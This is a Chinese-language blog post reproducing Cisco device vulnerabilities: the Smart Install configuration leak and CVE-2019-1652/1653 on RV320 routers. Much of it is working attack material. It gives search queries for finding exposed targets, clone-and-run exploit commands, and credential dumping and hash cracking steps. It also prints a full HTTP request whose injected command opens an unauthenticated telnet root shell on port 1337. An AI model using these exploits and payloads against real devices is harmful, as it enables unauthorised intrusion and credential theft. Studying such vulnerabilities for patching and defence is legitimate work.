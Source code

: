 ```yaml
---

title: "cisco设备信息泄漏漏洞案例"
date: 2022-10-21T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"

---
```


近期遇到了几个cisco配置信息泄漏的案例，借此机会复现下cisco常见的几个漏洞。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA
{{% /admonition %}}

<!--more-->

---

## cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放4786端口的cisco设备，那可以深入测试一下。

fofa 语句 *protocol="smi"*

![Untitled](../../img/cisco-case/Untitled.png)

影响目标还挺多的

```
git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit
cd CiscoSmartInstallExploit
pip2 install tftpy
python2 cisco.py [ip]
```

注意用python2运行,运行成功会下载目标的运行配置

![Untitled](../../img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL配置，ftp配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

```
git clone https://github.com/frostbits-security/ccat.git
cd ccat
pip3 install -r requirements.txt
python3 ccat.py configuration_file
```

![Untitled](../../img/cisco-case/Untitled%202.png)

我们可以使用 **--dump-creds** 参数dump出账号密码

![Untitled](../../img/cisco-case/Untitled%203.png)

文件名m500的可以用hashcat -m 500的掩码进行爆破,5700同理

![Untitled](../../img/cisco-case/Untitled%204.png)

---

## CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app="CISCO-RV320”

对应poc

```
ip:port/cgi-bin/config.exp
```

![Untitled](../../img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和md5的密码,不过md5的格式为 `md5($password.$auth_key)`，其中 auth_key 是一个静态值，可以通过直接访问 / 路径找到。

![Untitled](../../img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和md5的密码后可以通过替换登录包的hash进行登录,无需解密

![Untitled](../../img/cisco-case/Untitled%207.png)

![Untitled](../../img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github上的利用poc由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

```
POST /certificate_handle2.htm?type=4 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 319

page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b
```

payload执行后会用telnet在本地监听1337口

连接验证

![Untitled](../../img/cisco-case/Untitled%209.png)

---

## 总结

1. cisco设备国内互联网公司和企事业用的不多，今年来都被国产品牌替换了。
2. python的poc经常会遇到一些历史遗留问题，比如tls版本过低，依赖库安装报错不兼容等等问题，建议还是用go写poc，利人利己。
